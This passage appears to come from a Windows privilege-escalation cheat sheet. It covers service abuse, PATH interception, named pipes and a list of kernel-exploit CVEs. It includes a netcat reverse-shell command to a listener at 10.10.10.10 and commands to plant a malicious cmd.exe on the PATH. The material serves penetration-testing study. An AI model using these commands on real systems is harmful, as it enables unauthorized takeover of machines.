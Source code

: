     # automatic exploit
    Invoke-ServiceAbuse -Name [SERVICE_NAME] -Command "..\..\Users\Public\nc.exe 10.10.10.10 4444 -e cmd.exe"
    ```

### Example

For `C:\Program Files\something\legit.exe`, Windows will try the following paths first:
- `C:\Program.exe`
- `C:\Program Files.exe`


## EoP - $PATH Interception

Requirements:
- PATH contains a writeable folder with low privileges.
- The writeable folder is _before_ the folder that contains the legitimate binary.

EXAMPLE:
```powershell
# List contents of the PATH environment variable
# EXAMPLE OUTPUT: C:\Program Files\nodejs\;C:\WINDOWS\system32
$env:Path

# See permissions of the target folder
# EXAMPLE OUTPUT: BUILTIN\Users: GR,GW
icacls.exe "C:\Program Files\nodejs\"

# Place our evil-file in that folder.
copy evil-file.exe "C:\Program Files\nodejs\cmd.exe"
```

Because (in this example) "C:\Program Files\nodejs\" is _before_ "C:\WINDOWS\system32\" on the PATH variable, the next time the user runs "cmd.exe", our evil version in the nodejs folder will run, instead of the legitimate one in the system32 folder. 


## EoP - Named Pipes

1. Find named pipes: `[System.IO.Directory]::GetFiles("\\.\pipe\")`
2. Check named pipes DACL: `pipesec.exe <named_pipe>`
3. Reverse engineering software
4. Send data throught the named pipe : `program.exe >\\.\pipe\StdOutPipe 2>\\.\pipe\StdErrPipe`


## EoP - Kernel Exploitation

List of exploits kernel : [https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)

##### #Security Bulletin&nbsp;&nbsp;&nbsp;#KB &nbsp;&nbsp;&nbsp;&nbsp;#Description&nbsp;&nbsp;&nbsp;&nbsp;#Operating System  
- [MS17-017](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS17-017) 　[KB4013081]　　[GDI Palette Objects Local Privilege Escalation]　　(windows 7/8)
- [CVE-2017-8464](https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-8464) 　[LNK Remote Code Execution Vulnerability]　　(windows 10/8.1/7/2016/2010/2008)
- [CVE-2017-0213](https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-0213) 　[Windows COM Elevation of Privilege Vulnerability]　　(windows 10/8.1/7/2016/2010/2008)
- [CVE-2018-0833](https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2018-0833)   [SMBv3 Null Pointer Dereference Denial of Service]    (Windows 8.1/Server 2012 R2)
- [CVE-2018-8120](https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2018-8120)   [Win32k Elevation of Privilege Vulnerability]    (Windows 7 SP1/2008 SP2,2008 R2 SP1)